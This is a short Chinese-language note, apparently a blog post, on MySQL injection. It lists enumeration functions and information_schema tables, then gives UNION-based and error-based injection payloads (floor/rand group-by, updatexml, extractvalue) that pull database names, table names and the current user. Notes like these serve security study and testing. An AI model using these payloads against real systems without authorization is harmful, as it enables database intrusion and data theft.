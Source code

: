 ```yaml
---
title: "Mysql Injection"
date: 2020-01-06T17:05:39+08:00
draft: true
tags: [SQL注入]
categories: []
comment: true
---
```

Mysql Injection

# MYSQL注入

### 函数
version()——MySQL 版本
user()——数据库用户名
database()——数据库名
@@datadir——数据库路径
@@version_compile_os——操作系统版本
information_schema 自带数据库
information_schema.schemata 数据库
information_schema.tables 数据表
information_schema.columns 数据列
floor函数返回小于等于该值的最大整数
RAND()函数调用可以在0和1之间产生一个随机数
join(连接)

## 联合注入

```
union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```

## 报错注入：

```
rand()
```
![](https://pic.superbed.cn/item/5dcbf1df8e0e2e3ee9eb629e.jpg)
```
floor()
```
![](https://pic.superbed.cn/item/5dcbf31c8e0e2e3ee9eb8939.jpg)

```
and (select 1 from (select count(*),concat((payload),floor (rand(0)*2))x from information_schema.tables group by x)a)

and (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2))) -- +
```
```
1' and updatexml(1,user(),1) --+
只有在payload返回的不是xml格式才会生效,其最长输出32位
```
```
extractvalue(1,concat('~',user(),'~'))
其最长输出32位
```
